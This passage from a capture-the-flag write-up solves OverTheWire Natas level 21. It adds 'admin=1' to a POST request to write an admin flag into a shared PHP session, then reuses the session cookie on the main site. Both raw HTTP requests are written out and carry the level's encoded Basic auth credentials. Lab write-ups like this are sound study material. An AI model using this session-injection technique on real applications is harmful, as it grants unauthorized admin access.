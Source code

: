 This bit of code basically sets a `$_SESSION` token based on the "submit" parameter being present in the POST request. 

Something we should have done earlier as well, is to turn on the "DEBUG" mode, by providing a `?debug` parameter onto out initial GET request. This will allow us to see what is being stored in the session.

To exploit this vulnerability is a two part process, same as the last one. 

First we need to set ourselves an `admin` flag.

This is trivial, all we need to do is capture the request in Burp then add `admin=1` onto the end of the POST request that we make to the "CSS Experimenter".

After we've done this, and confirmed that we can see the admin flag in the session, we can take the generated session token (or just provide our own for the sake of education) and use it on the first page (the one that links to the CSS generator) and we should get an admin session back.

```
POST /index.php?debug HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Cookie: __cfduid=dc8d1ca00f5e6ddf88da93337662ff66b1523893447; PHPSESSID=hackingthings
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Upgrade-Insecure-Requests: 1

align=center&fontsize=100%25&bgcolor=pink&submit=Update&admin=1
```

> Setting the admin flag and session token

```
GET / HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: __cfduid=dc8d1ca00f5e6ddf88da93337662ff66b1523893447; PHPSESSID=hackingthings
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

> Attaching to our session token that has the `admin` flag set.

## Level 22
